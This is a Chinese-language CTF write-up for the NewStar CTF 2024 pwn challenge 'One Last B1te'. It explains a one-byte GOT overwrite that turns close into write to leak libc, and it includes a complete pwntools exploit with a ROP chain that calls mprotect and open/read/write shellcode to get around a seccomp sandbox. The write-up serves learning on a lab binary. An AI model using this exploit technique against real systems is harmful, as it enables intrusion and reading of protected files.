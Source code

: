 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# One Last B1te

先查保护和沙箱：

```asm
[*] '/home/?????/PWN/NewStar2024-test/hackgot/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x03 0x00 0x00000028  if (A == sendfile) goto 0009
 0006: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0009
 0007: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
```

没有 PIE，没有 anary，Partial RELRO，意味着存在延迟绑定 + GOT 表可写。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+8h] [rbp-18h] BYREF
  _BYTE v5[16]; // [rsp+10h] [rbp-10h] BYREF

  init(argc, argv, envp);
  sandbox();
  write(1, "Show me your UN-Lucky number : ", 0x20uLL);
  read(0, &buf, 8uLL);  // 读入一个地址
  write(1, "Try to hack your UN-Lucky number with one byte : ", 0x32uLL);
  read(0, buf, 1uLL);   // 往上面读入的地址中写入一个字符
  read(0, v5, 0x110uLL);// 往栈上读入内容，有栈溢出
  close(1);             // 关闭stdout
  return 0;
}
```

有一次任意地址写的机会。

程序在新版 Ubuntu 24 下编译，优化掉了 CSU，此时我们很难利用 ELF 的 gadget 来 ROP.

我们想办法泄露 libc 地址或者 ld 地址然后利用 libc/ld 中的 gadget 来 ROP，执行 open + read + write 来输出 flag 文件内容。

程序中只有 `write` 函数可以进行输出，我们可以利用一个字节任意地址写的机会，把 `close` 函数的 GOT 表的数值改为`write`函数的 PLT 表的地址（因为存在延迟绑定，`close` 在第一次调用之前指向的是 PLT 中的表项，我们很容易利用修改最低一个字节的方法来使其指向 `write` 函数的 PLT 表）。

之后由于 `close(1)` 设置第一个参数为 1，同时 `read(0, v5, 0x110uLL);` 会残留第 2、3 个参数，我们修改 `close` 的 GOT 表之后相当于执行 `write(1,v5,0x110uLL);`，就可以泄露栈上的内容，正好能泄露 libc 地址，之后利用栈溢出再次启动 `main` 函数栈溢出 ROP 即可。

由于 glibc 2.39 版本不容易控制 rdx 寄存器，我们可以使用 `pop rax` + `xchg eax, edx` 的方法来设置 rdx 寄存器的数值。

```python
# sudo sysctl -w kernel.randomize_va_space=0
# gcc pwn.c -o pwn -masm=intel -no-pie -fno-stack-protector -l seccomp
from pwn import*
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

ELFpath = './pwn'
p=remote('localhost',11451)
#p=process(['./ld-2.31.so', ELFpath], env={"LD_PRELOAD":'./libc-2.31.so'})
# p=process(ELFpath)

close_got=0x404028
write_plt=0x4010c0

p.sendafter("Show me your UN-Lucky number :",p64(close_got))
p.sendafter("Try to hack your UN-Lucky number with one byte :",b'\xc0')
ret=0x0401447
main=0x4013a3
rubbish=0x404000+0x800
payload=b'a'*0x18+p64(ret)+p64(main)
pause()

p.send(payload)
p.recvuntil(b'a'*0x18)
p.recv(0xb8-0x18)
libc_base=u64(p.recv(6)+b'\x00\x00')-0x710b26c2a28b+0x710b26c00000

p.sendafter("Show me your UN-Lucky number :",p64(rubbish))

p.sendafter("Try to hack your UN-Lucky number with one byte :",b'\x70')

pop_rdi=libc_base+0x010f75b
pop_rsi=libc_base+0x110a4d
binsh=libc_base+0x1cb42f

xchg_edx_eax=libc_base+0x01a7f27

pop_rax=libc_base+0x0dd237

open_a=libc_base+0x011B120
read_a=libc_base+0x011BA50
mprotect=libc_base+0x00125C10

payload=b'a'*0x18+p64(pop_rdi)+p64(libc_base+0x202000)+p64(pop_rsi)+p64(0x2000)+p64(pop_rax)+p64(7)+p64(xchg_edx_eax)+p64(mprotect)+p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(libc_base+0x202000)+p64(pop_rax)+p64(0x1000)+p64(xchg_edx_eax)+p64(read_a)+p64(libc_base+0x202000)

pause()

p.send(payload)

pause()

shellcode=''
shellcode+=shellcraft.open('./flag',0,0)
shellcode+=shellcraft.read('rax',libc_base+0x202000+0x800,0x100)
shellcode+=shellcraft.write(2,libc_base+0x202000+0x800,'rax')
# gdb.attach(p)
p.send(asm(shellcode))

p.interactive()
```
